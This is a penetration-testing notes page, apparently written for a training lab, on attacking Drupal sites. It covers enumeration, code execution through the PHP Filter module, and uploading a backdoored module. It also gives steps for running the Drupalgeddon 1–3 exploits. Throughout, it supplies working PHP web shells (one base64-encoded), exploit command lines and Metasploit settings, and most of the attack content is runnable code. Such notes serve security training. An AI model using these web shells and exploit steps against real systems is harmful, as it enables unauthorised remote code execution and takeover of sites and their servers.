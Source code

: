 # Drupal

Drupal is another open source CMS built with PHP and supports MySQL, PostreSQL, or SQLite backends.

### Discovery/Footprinting

```shell-session
curl -s http://drupal.inlanefreight.local | grep Drupal

<meta name="Generator" content="Drupal 8 (https://www.drupal.org)" />
      <span>Powered by <a href="https://www.drupal.org">Drupal</a></span>
```

Drupal installs can also be identified by the "Powered by Drupal" header or footer message, the CHANGELOG.txt or README.txt file, or references to /node in the robots.txt.&#x20;

Nodes are used by drupal to index the website and any presence of /node should be looked at as an indicator that drupal is in use.&#x20;

### Drupal User Types&#x20;

1. `Administrator`: This user has complete control over the Drupal website.
2. `Authenticated User`: These users can log in to the website and perform operations such as adding and editing articles based on their permissions.
3. `Anonymous`: All website visitors are designated as anonymous. By default, these users are only allowed to read posts.

### Enumeration

Version can be found many times in CHANGELOG or README:

```shell-session
curl -s http://drupal-acc.inlanefreight.local/CHANGELOG.txt | grep -m2 ""
```

Droopescan can also find version as well as installed plugins:

```shell-session
droopescan scan drupal -u http://drupal.inlanefreight.local
```

### RCE w/ PHP Filter Module&#x20;

In versions before version 8, a Drupal Admin can login and enable this module, which allows PHP code to be modified and executed.&#x20;

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

Once enabled, go to Content -> Add Content -> Basic Page&#x20;

<figure><img src="../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

Here you would input your malicious code to gain a webshell or reverse shell.&#x20;

Use an `MD5` hash representation can originate from any hashed command or string that isn't easily guessable and is not present in any dictionary wordlists used for directory brute-forcing.

<pre class="language-php"><code class="lang-php"><strong>&#x3C;?php
</strong>system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>
</code></pre>

Ensure Text Format is set to PHP code:&#x20;

<figure><img src="../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

### Install PHP Filter Module (8 and newer)

Starting in version 8, the PHP Filter module is not installed by default. In this instance we can install it to exploit this functionality.&#x20;

1.  Download module on your attack box:&#x20;

    ```shell-session
    wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
    ```
2. Navigate too `Administration` > `Reports` > `Available updates`
3. Install the module and continue with exploiting PHP Filter Module (documented above)

### Creating and Uploading a backdoored module

Users with enough permissions are capable of uploading new modules. An existing module can be modified to include a PHP web shell or reverse shell and uploaded. Modules can be found on the drupal.org website.

1. Get the module&#x20;
   1.

       ```shell-session
       wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
       ```
   2.

       ```shell-session
       tar xvf captcha-8.x-1.2.tar.gz
       ```
2. Create PHP webshell&#x20;
   1.

       ```php
       <?php
       system($_GET['fe8edbabc5c5c9b7b764504cd22b17af']);
       ?>
       ```
3. Create .htaccess file to give access to the folder&#x20;
   1.

       ```html
       <IfModule mod_rewrite.c>
       RewriteEngine On
       RewriteBase /
       </IfModule>
       ```
4. Combine files and re-zip for upload&#x20;
   1.

       ```shell-session
       mv shell.php .htaccess captcha
       tar cvf captcha.tar.gz captcha/
       ```
5. Upload backdoor module&#x20;
   1. Manage -> Extend -> Install new module
6. Execute backdoor
   1.

       ```shell-session
       curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id
       ```

### Known Vulnerabilties

there is a collection of critical RCE vulnerabilities known as Drupalgeddon:

#### Drupalgeddon:

* [CVE-2014-3704](https://www.drupal.org/SA-CORE-2014-005), known as Drupalgeddon, affects versions 7.0 up to 7.31 and was fixed in version 7.32. This was a pre-authenticated SQL injection flaw that could be used to upload a malicious form or create a new admin user.
  * POC exploit: [https://www.exploit-db.com/exploits/34992](https://www.exploit-db.com/exploits/34992)
  * metasploit module: [exploit/multi/http/drupal\_drupageddon](https://www.rapid7.com/db/modules/exploit/multi/http/drupal_drupageddon/)&#x20;

```shell-session
python2.7 drupalgeddon.py -t http://drupal-qa.inlanefreight.local -u hacker -p pwnd
```

#### Drupalgeddon2

* [CVE-2018-7600](https://www.drupal.org/sa-core-2018-002), also known as Drupalgeddon2, is a remote code execution vulnerability, which affects versions of Drupal prior to 7.58 and 8.5.1. The vulnerability occurs due to insufficient input sanitization during user registration, allowing system-level commands to be maliciously injected.
  * POC exploit: [https://www.exploit-db.com/exploits/44448](https://www.exploit-db.com/exploits/44448)

```shell-session
python3 drupalgeddon2.py 
# Check that hello.txt exists and exploit was successful 
curl -s http://drupal-dev.inlanefreight.local/hello.txt
# modify script to include web shell
echo '<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>' | base64
# replacec echo command in the exploit script 
echo "PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K" | base64 -d | tee mrb3n.php
# re run exploit 
python3 drupalgeddon2.py
# execute code 
curl http://drupal-dev.inlanefreight.local/mrb3n.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```

#### Drupalgeddon3

* [CVE-2018-7602](https://cvedetails.com/cve/CVE-2018-7602/), also known as Drupalgeddon3, is a remote code execution vulnerability that affects multiple versions of Drupal 7.x and 8.x. This flaw exploits improper validation in the Form API.
  * Exploit POC: [https://github.com/rithchard/Drupalgeddon3](https://github.com/rithchard/Drupalgeddon3)
  * metasploit module: multi/http/drupal\_drupageddon3

1. Capture login in Burpsuite to get valid session cookie:
   1.

       <figure><img src="../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>
2.

    ```shell-session
    msf6 exploit(multi/http/drupal_drupageddon3) > set rhosts 10.129.42.195
    msf6 exploit(multi/http/drupal_drupageddon3) > set VHOST drupal-acc.inlanefreight.local   
    msf6 exploit(multi/http/drupal_drupageddon3) > set drupal_session SESS45ecfcb93a827c3e578eae161f280548=jaAPbanr2KhLkLJwo69t0UOkn2505tXCaEdu33ULV2Y
    msf6 exploit(multi/http/drupal_drupageddon3) > set DRUPAL_NODE 1
    msf6 exploit(multi/http/drupal_drupageddon3) > set LHOST 10.10.14.15
    msf6 exploit(multi/http/drupal_drupageddon3) > show options
    ```

### Droopescan and python versions

You may run into issues with newer python versions with Droopescan. Check out the cross linked page to learn about managing differnet python versions across virtual environments.&#x20;

{% embed url="https://adams-hacknotes.gitbook.io/adams-hacknotes/~/revisions/pjBmh8xYFncc9B8ppWZm/group-1/python-versions-and-virtual-environments" %}
